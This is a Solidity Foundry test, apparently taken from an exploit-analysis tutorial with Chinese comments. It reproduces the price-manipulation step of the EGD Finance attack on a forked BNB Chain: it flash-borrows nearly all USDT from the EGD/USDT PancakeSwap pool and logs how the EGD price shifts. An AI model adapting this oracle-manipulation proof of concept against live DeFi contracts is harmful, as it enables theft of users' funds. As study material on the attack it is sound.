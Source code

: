 ```solidity
//LPs
IPancakePair constant EGD_USDT_LPPool = IPancakePair(
    0xa361433E409Adac1f87CDF133127585F8a93c67d
);

contract PriceManipulateTest is Test {
    IEGD_Finance egdFinance;

    function setUp() public {
    		//fork 攻击发生前的网络
        vm.createSelectFork("https://rpc.ankr.com/bsc", blockheight);
        egdFinance = IEGD_Finance(EGD_Finance);
        //假设我们的账户上有一些USDT
        deal(address(usdt), address(this), 30000 * 1 ether);
    }

    function testPrice() public {
        console2.log("edg price before:", egdFinance.getEGDPrice());
				
				//借出99.99%的USDT, 让USDT变得非常稀少
        uint256 borrowUSDT = (IERC20(usdt).balanceOf(address(EGD_USDT_LPPool)) *
            9_999_999_925) / 10_000_000_000;
        EGD_USDT_LPPool.swap(0, borrowUSDT, address(this), "abcd");

        console2.log(
            "edg price after (i return the borrowed USDT back):",
            egdFinance.getEGDPrice()
        );
    }

    function pancakeCall(
        address,
        uint256,
        uint256 count1,
        bytes calldata
    ) public {
        console2.log(
            "edg price after (i borrowed huge USDT out):",
            egdFinance.getEGDPrice()
        );
        bool success = IERC20(usdt).transfer(
            address(EGD_USDT_LPPool),
            ((count1 * 10_500_000_000) / 10_000_000_000)
        ); //归还本金 + 5%手续费

        require(success);
    }
}

```
